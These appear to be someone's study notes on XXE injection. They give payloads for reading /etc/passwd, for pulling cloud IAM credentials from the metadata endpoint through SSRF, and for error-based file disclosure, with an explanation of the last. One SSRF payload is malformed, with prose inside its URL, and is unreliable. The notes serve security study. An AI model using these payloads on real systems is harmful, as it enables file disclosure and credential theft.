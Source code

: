 # XXE = XML external entity (extensible markup language)

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data

## LFI

Payload 

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE email [
    <!ENTITY signature SYSTEM "file:///etc/passwd">
    ]>

## SSRF

We use SYSTEM <URL> to try get credentials mayble example for aws

    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/data/iam/security-credentials/admin. This should return JSON containing the SecretAccessKey"> ]>

# Blind XXE
out of bound skipped, no collaborator and see HTB page

## error bases XXE

THe payload as following : 

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;

* Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
* Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called error. The error entity will be evaluated by loading a nonexistent file whose name contains the value of the file entity.
* Uses the eval entity, which causes the dynamic declaration of the error entity to be performed.
* Uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the /etc/passwd file.

// i'll stop here need to see HTB and try to get Paid version of collaborator